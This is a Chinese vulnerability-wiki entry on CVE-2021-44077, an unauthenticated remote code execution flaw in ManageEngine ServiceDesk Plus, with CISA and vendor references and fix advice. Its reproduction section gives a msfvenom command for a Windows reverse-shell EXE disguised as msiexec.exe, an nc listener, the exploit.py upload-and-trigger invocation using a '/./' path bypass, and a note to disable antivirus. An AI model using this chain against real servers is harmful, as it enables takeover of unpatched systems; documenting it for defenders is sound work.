

# （CVE-2021-44077）ManageEngine ServiceDesk Plus未认证RCE漏洞

> 编号角色校订（2026-10-04）：按技术主体及多编号分节核对主讨论对象、链成员与引用，当前编号字段据此更新；旧编号原值及 `identifier_status` 均保留，变更前字段保存在 `previous_*`。后文原有角色待核项按当前字段阅读，版本、配置及证据缺口未因此自动解决；原作者的复现声明不升级为维护者复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：ManageEngine ServiceDesk Plus
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：关闭AV仅隔离实验条件不应通用生产建议
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. Windows EXE链不泛化Linux
2. 401是该链预期但不能当上传成功充分证据，Done did it work明确需要后续确认
3. 关闭AV仅隔离实验条件不应通用生产建议
4. 上传msiexec和反连有副作用清理需标
5. Build11306及官方/CISA/Horizon3链接齐全待一手核，补原始上传/触发判据

### 操作风险

上传msiexec和反连有副作用清理需标

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

一、漏洞简介
------------

2021年11月披露的 ManageEngine ServiceDesk Plus 未认证远程代码执行漏洞。攻击者利用 `ImportTechnicians` 接口的文件上传功能上传 Windows 可执行文件，再通过未授权调用触发执行，无需任何认证即可在服务器上运行任意 EXE。

CISA 发布 AA21-336a 安全警告确认该漏洞被在野利用。Horizon3.ai 发布了公开 PoC（实测 Build 11303）。



二、漏洞影响
------------

-   产品：ManageEngine ServiceDesk Plus
-   版本：**Build 11306 之前**（修复版：11306 及之后；PoC 实测于 Build 11303）
-   组件/攻击向量：`/RestAPI/ImportTechnicians` 文件上传 + `/./RestAPI/s247action` 未授权调用
-   前提条件：网络可达 ServiceDesk Plus（默认 8080 端口），无需凭证

三、复现过程
------------

### 漏洞分析

`ImportTechnicians` 接口允许上传文件且缺乏有效的认证与类型校验；上传成功后，攻击者请求 `/./RestAPI/s247action`（路径中的 `/./` 用于绕过访问控制）即可触发已上传 EXE 的执行，完整链条无需认证。

### PoC（来源：https://github.com/horizon3ai/CVE-2021-44077，仅限授权测试）

先生成用于测试的可执行文件并启动监听：

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.140 LPORT=4444 -f exe > msiexec.exe
nc -l 4444
```

执行利用脚本：

```bash
python exploit.py http://<TARGET>:<PORT> <path_to_exe>
```

示例输出：

```
[+] Target: http://192.168.0.140:8080/
[+] Executable: msiexec.exe
[+] Uploading msiexec.exe to http://192.168.0.140:8080/RestAPI/ImportTechnicians?step=1
[+] Got 401 error code on upload. This is expected.
[+] Uploaded msiexec.exe
[+] Attempting to invoke against url http://192.168.0.140:8080/./RestAPI/s247action. Waiting up to 20 seconds...
[+] Done, did it work?
```

注意：上传时返回 401 为预期现象，不影响后续触发执行。测试时请关闭目标 AV（PoC 作者实测环境要求）。

四、修复建议
------------

1.  升级到 Build 11306 或更高版本（ManageEngine 官方安全响应）；
2.  临时缓解：限制 ServiceDesk Plus 仅内网可达；
3.  排查服务器上未知 EXE 文件与异常进程，CISA AA21-336a 给出了入侵指标。

### 附录

参考链接：

-   公开 PoC：https://github.com/horizon3ai/CVE-2021-44077
-   CISA 警告 AA21-336a：https://www.cisa.gov/uscert/ncas/alerts/aa21-336a
-   厂商修复说明：https://www.manageengine.com/products/service-desk/security-response-plan.html
